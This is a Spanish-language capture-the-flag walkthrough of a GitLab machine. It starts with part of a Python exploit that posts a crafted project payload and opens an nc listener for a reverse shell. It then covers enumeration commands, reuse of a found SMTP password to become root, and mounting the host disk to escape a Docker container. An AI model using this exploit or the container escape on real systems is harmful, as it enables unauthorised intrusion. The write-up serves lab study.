 ```python
    session=requests.Session()
    headers = {'user-agent':'Moana Browser 1.0','Cookie':cookie,'Content-Type':'application/x-www-form-urlencoded','DNT':'1','Upgrade-Insecure-Requests':'1'}
    r=session.get(url+'/projects/new',headers=headers,allow_redirects=True)
    soup = BeautifulSoup(r.content,"lxml")
    nsid = soup.findAll('input', {"id": "project_namespace_id"})
    namespace_id=nsid[0]['value'];
    deb("Namespace ID: "+namespace_id)
    prgname=random_string(8)
    newpayload=create_payload(authenticity_token,prgname,namespace_id,localip,localport,username)
    newpayload=urllib.parse.urlencode(newpayload)
    deb("Payload encoded: "+newpayload)
    r=session.post(url+'/projects',newpayload,headers=headers,allow_redirects=False)
    os.system("nc -nvlp "+localport)

init(username,cookie,authenticity_token,localport,localip)
```

Lo lanzamos y nos devuelve una shell como el user `git` atraves del mismo exploit
Una vez dentro de la maquina victima nos ponemos a enumerar el sistema y vemos que estamos en un Docker(contenedor). 
Nos movemos a `/home/dude/` y ya podriamos visualizar la flag `Users.txt: e1e30b052b6ec06706........`

# Escalada de privilegios y acceso a los archivos de la Maquina Victima.

Procedemos a enumerar el sistema como siempre:
```bash
find / -perm -u=s type f 2>/dev/null
grep -r -i "password"
grep -r -i -E "password|key|databases|user"
```
Nos movemos a la ruta `/opt/backup` usamos el comando anterior `grep -r -i "password"`
y conseguimos sacar una password relacionada con el servicio SMTP `"wW59U!ZKMbG9+*#h"`
probamos la reutilizacion de credenciales y instentamos hacer un cambio al user root con la password encontrada. Funciona.

# Consiguiendo Acceso a la maquina Victima como Root

Una vez somos root en el Docker vemos con el comando 
```bash
$ df -l 
y vemos las particiones de la maquina(COMPLETAR)
```
Encontramos una particion que pesa como 12g y aparece referenciada a `/root_pass`
Porque no ? Vamos a probar a movernos a la ruta `/mnt/` y crearnos un directorio para hacer uso de una mountura y montar el sistema de archivos en este directorio.
```bash
"root@gitlab:/# cd mnt    "
"root@gitlab:/mnt# mkdir qdmSto              "                                                                                                                                                                        
"root@gitlab:/mnt# mount /dev/sda2 qdmSto/  "                                                                                                                                                                         
"root@gitlab:/mnt# cd qdmSto/ "
"root@gitlab:/mnt/qdmSto# ls -la "                                                                                                                                                                                    
total 100                                                                                                                                                                                                           
```